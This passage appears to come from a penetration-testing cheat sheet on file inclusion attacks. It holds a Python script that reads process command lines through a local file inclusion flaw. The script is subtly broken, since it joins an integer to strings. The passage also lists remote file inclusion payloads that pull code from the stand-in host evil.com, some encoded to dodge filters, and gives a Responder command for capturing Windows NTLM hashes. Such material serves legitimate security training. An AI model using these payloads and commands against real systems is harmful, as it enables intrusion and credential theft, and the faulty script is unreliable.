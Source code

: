 <br />

### Read Process Commands

We can retrieve commands that start processes by enumerating **`/proc/PID/cmdline`**.    
Create a Python script that enumerates them. We can refer to [this blog post](https://notes.huskyhacks.dev/blog/tryhackme-takedown-walkthrough-v1)'s "This leaves the server vulnerable to Local File Inclusion." section.

```python
# lfi.py
import requests
import time

for i in range(10):
    print(f"[+] Trying {i}")
    url = "http://example.com/?file=/proc/" + i + "/cmdline"
    resp = requests.get(url)
    print(resp.content)
    time.sleep(1)
```

Then execute this file.

```bash
python3 lfi.py
```

<br /><br />

## Remote File Inclusion (RFI)

```txt
?page=//evil.com/exploit
?page=%2F%2fevil.com/exploit
?page=%2C%2Cevil.com/exploit
?page=http://evil.com/exploit
?page=http%3A//evil.com/exploit
?page=http%3A%2F%2Fevil%2Ecom/exploit
?page=http%253A%252F%252Fevil%252Ecom/
?page=test@sub.example.com/
```

<br />

### Steal NTLM Hashes (Windows)

If the website is hosted on Windows, we may be able to retrieve password hashes using **Responder**.  
In local machine, start responder.

```bash
# -I: Interface e.g. eth0, tun0, etc.
sudo responder -I tun0
```
